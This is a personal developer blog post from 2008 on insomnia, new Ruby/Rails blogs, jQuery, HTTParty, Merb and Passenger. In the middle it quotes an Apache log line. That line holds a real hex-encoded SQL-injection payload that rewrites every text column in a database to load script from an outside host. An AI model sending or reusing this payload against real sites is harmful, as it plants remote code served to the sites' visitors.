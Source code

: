 # Week of Insomnia

Contrary to what you might think, I think insomnia's fantastic.  It
puts me in this limbo state where my mind feels like lead and I suck
at _almost_ everything.  One thing I've found myself to be quite good
at is catching up on Internet.  There was plenty of crap, but I found
a lot of good technical stuff.

For starters, I subscribed to a bunch of new blogs:

* [Rails Garden](http://www.railsgarden.com) - he had a [fun
  entry](http://www.railsgarden.com/2008/04/01/ruby-on-rails-is-going-down-introducing-cobol-on-cogs/trackback/)
  on [Cobol On Cogs](http://www.coboloncogs.org/).  I love the
  functional function keys.
* [Jay Fields'
  Thoughts](http://blog.jayfields.com/2007/10/rails-rise-fall-and-potential-rebirth.html) - I
  forget where I initially heard about the Presenter pattern,
  but all the Ruby references to Presenter link to this guy.  Once
  you've read and understood the purpose of Presenter, then
  [ActivePresenter](http://jamesgolick.com/2008/7/28/introducing-activepresenter-the-presenter-library-you-already-know)
  is an implementation with a very clean declarative syntax.
* [Rails Envy](http://railsenvy.com/) - I knew of them before as
  the funny Ruby on Rails [commercials
  duo](http://railsenvy.com/tags/Commercials).  I noticed they had
  a podcast, so I started listening to that when I go running.
* [Stack Overflow](http://blog.stackoverflow.com/) - I also
  started listening to Stack Overflow.  It's not running music,
  but it's pretty darn entertaining.

I played with Google Analytics a bit, and noticed a fun bit in my
Apache access logs:

<pre style="width: 400px">
81.164.83.227 - - [17/Aug/2008:15:32:31 +0000] "GET
/?;DeCLARE%20@S%20CHAR(4000);SET%20@S=CAST(0x4445434C415245204054207661
726368617228323535292C40432076617263686172283430303029204445434C4152452
05461626C655F437572736F7220435552534F5220464F522073656C65637420612E6E61
6D652C622E6E616D652066726F6D207379736F626A6563747320612C737973636F6C756D
6E73206220776865726520612E69643D622E696420616E6420612E78747970653D27752
720616E642028622E78747970653D3939206F7220622E78747970653D3335206F7220622
E78747970653D323331206F7220622E78747970653D31363729204F50454E205461626C6
55F437572736F72204645544348204E4558542046524F4D20205461626C655F437572736
F7220494E544F2040542C4043205748494C4528404046455443485F5354415455533D302
920424547494E20657865632827757064617465205B272B40542B275D20736574205B272B
40432B275D3D5B272B40432B275D2B2727223E3C2F7469746C653E3C7363726970742073
72633D22687474703A2F2F777777332E3830306D672E636E2F63737273732F772E6A73223
E3C2F7363726970743E3C212D2D272720776865726520272B40432B27206E6F74206C696B6
520272725223E3C2F7469746C653E3C736372697074207372633D22687474703A2F2F77777
7332E3830306D672E636E2F63737273732F772E6A73223E3C2F7363726970743E3C212D2D27
2727294645544348204E4558542046524F4D20205461626C655F437572736F7220494E544F2
040542C404320454E4420434C4F5345205461626C655F437572736F72204445414C4C4F434
15445205461626C655F437572736F72%20AS%20CHAR(4000));ExEC(@S);
HTTP/1.1" 200 61318 "-" "Mozilla/4.0 (compatible; MSIE 7.0; Windows NT
5.1; .NET CLR 1.1.4322)"
</pre>

I also had a blast playing with [jQuery](http://jquery.com/).  The
docs were clear and well organized.  All the selectors were exactly
what I wanted.  It was easy to chain together what I wanted to do
because of the methods return jQuery objects.  The callbacks were also
intuitive and easy to manipulate... even for a Javascript newbie.

Another library which I fell in love with at first site was
[HTTParty](http://railstips.org/2008/7/29/it-s-an-httparty-and-everyone-is-invited).
It really brings me back to my Perl screen scrapping days. (Oh!
WWW::Mechanize) It also linked me to the [Programmable
Web](http://www.programmableweb.com/apis/directory/) homepage.  I
didn't really read through what's available, but this is going to be a
great place to prototype mashups.

Seeing all this good stuff made me look for an excuse to write
something to solidify the basics in my head.  The result is a
half-assed mish-mash of Javascript and Ruby ala jQuery and Merb.  I
used Merb instead of Rails because I was too lazy to create a
database.  Surprisingly enough, [Passenger supports
Merb](http://www.modrails.com/documentation/Users%20guide%202.0.html#_merb)
just fine.  I looked at some of the other lighter Ruby web frameworks,
and they were all pretty fun.  I noted that the new
[Webgen](http://www.whatcodecraves.com/posts/2008/08/06/flaco_crusher/)
installed [Ramaze](http://ramaze.net/) as a dependency.  Check it out
if you're [feeling hyphy](http://hyphy.whatcodecraves.com/).

<object width="425" height="344"><param name="movie"
value="http://www.youtube.com/v/EEUyuKbSLK0&hl=en&fs=1"></param><param
name="allowFullScreen" value="true"></param><embed
src="http://www.youtube.com/v/EEUyuKbSLK0&hl=en&fs=1"
type="application/x-shockwave-flash" allowfullscreen="true"
width="425" height="344"></embed></object>

(Disclaimer: This is an inside joke that just won't die)

Speaking of Passenger, the new Railscast [episode about
Passenger](http://railscasts.com/episodes/122-passenger-in-development)
along with [nuby on rails'
article](http://nubyonrails.com/articles/ask-your-doctor-about-mod_rails)
about rstakeout might finally provide a solution to prevent me from
having to restart my server in development whenever I edit a plugin or
a file in the lib directory.  It also clued me into a whole world of
Ruby monitoring systems, the funniest named one being
[God](http://god.rubyforge.org/).

I worked a bunch on migrating this blog over to use Webgen.  I'd say
that I'm about 60 or 70 percent of the way there.  I spent most of the
time just reading and enjoying how simple and clear the code was.  I
think I have a good enough grip on enough code that I'd like to write
a few extensions so that I can continue to publish this blog without
any changes to the previous articles I wrote.

I think there was even more *stuff* I wanted to keep in my head.
Unforunately, a real downside of insomnia is having some, if not most,
of the good stuff leak out.
